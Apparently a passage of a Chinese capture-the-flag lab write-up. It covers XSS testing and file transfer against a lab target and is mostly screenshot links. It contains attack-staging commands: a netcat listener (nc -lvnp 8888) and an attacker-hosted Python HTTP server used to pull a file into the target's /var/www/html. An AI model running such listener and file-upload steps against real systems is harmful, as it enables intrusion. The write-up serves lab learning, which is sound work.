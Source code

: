 ![Screenshot_20240416_214509](./图/Screenshot_20240416_214509.png)

![Screenshot_20240416_214806](./图/Screenshot_20240416_214806.png)

![Screenshot_20240416_214821](./图/Screenshot_20240416_214821.png)

![Screenshot_20240416_214914](./图/Screenshot_20240416_214914.png)

![Screenshot_20240416_215653](./图/Screenshot_20240416_215653.png)

##### (2).xss_2成功

```c
行吧这个没变,下一个xss测试
    进攻方:nc -lvnp 8888
    测试界面:http://10.10.14.64:8888
```

![Screenshot_20240416_221255](./图/Screenshot_20240416_221255.png)

###### CURL

```c
Curl是一个用于传输数据的命令行工具和库。
    它支持多种协议，包括HTTP、HTTPS、FTP、FTPS、SCP、SFTP、TFTP、LDAP、和许多其他协议。
    Curl最初由Daniel Stenberg创建，现在由一个全球社区维护。

Curl的主要功能包括：
    1. 下载和上传文件：Curl可以从网址下载文件，也可以上传文件到服务器。
    2. HTTP请求：Curl可以模拟HTTP请求，包括GET、POST、PUT、DELETE等方法。
    3. 支持代理：Curl支持使用代理服务器进行连接。
    4. 断点续传：Curl可以在下载中断后恢复下载，支持断点续传功能。
    5. 支持多种协议：除了HTTP和HTTPS，Curl还支持FTP、SFTP、SCP等多种协议。
总的来说，Curl是一个非常强大且灵活的工具，用于从命令行发送和接收数据。
```

##### (3).测试文件传输

```c
"echo PleaseSubscribe > test"

"python3 -m http.server 7777"
"http://10.10.14.64:7777/test -o /var/www/html/test"
```

![Screenshot_20240416_224603](./图/Screenshot_20240416_224603.png)

![Screenshot_20240416_224834](./图/Screenshot_20240416_224834.png)

###### _验证失败

```c
http://10.10.14.64:7777/var/www/html/test
```

